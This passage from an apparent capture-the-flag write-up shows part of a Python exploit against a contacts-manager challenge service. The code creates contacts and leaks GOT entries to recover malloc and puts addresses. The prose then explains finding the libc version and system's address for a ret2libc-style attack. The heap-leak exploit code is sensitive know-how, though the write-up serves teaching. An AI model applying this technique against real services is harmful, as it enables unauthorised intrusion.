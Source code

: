 ```python
    
    sendln('4')
    data = readtil('>>> ')
    m = re.findall('Phone #: (.*)', data)
    return m[0]
    
def leak4(x):
    return struct.unpack('I', leak(x)[0:4])[0]
    
def pwn():
    global s
    global last_addr
    last_addr = 0
    s=socket(AF_INET, SOCK_STREAM)
    #s.connect(('127.0.0.1', 4444))
    s.connect(('54.165.223.128', 2555))
    readtil('>>> ')
    
    # create contact 1
    sendln('1')
    readtil('Name: ')
    sendln('BAR1')
    readtil('Phone No: ')
    sendln('0')
    readtil('description: ')
    sendln('100')
    readtil('description:')
    sendln('BLEH')
    
    readtil('>>> ')
    
    # create contact 2
    sendln('1')
    readtil('Name: ')
    sendln('BAR2')
    readtil('Phone No: ')
    sendln('1')
    readtil('description: ')
    sendln('100')
    readtil('description:')
    sendln('BLAH')
    
    readtil('>>> ')

    malloc = leak4(0x804b020)
    print "[+] malloc @ " + hex(malloc)
    puts = leak4(0x804b024)
    print "[+] puts   @ " + hex(puts)
```

This gave us two addresses, and [libcdb.com](http://libcdb.com/) gave us no less than five options. We logged back into the server for pwn100, which had a different IP address so was probably a differnent box. We figured that the CTF organizers used the same base image for each box. The symbols of the libc on pwn100's box seemed to match what we found via the leak and we just got the address of system from that machine.
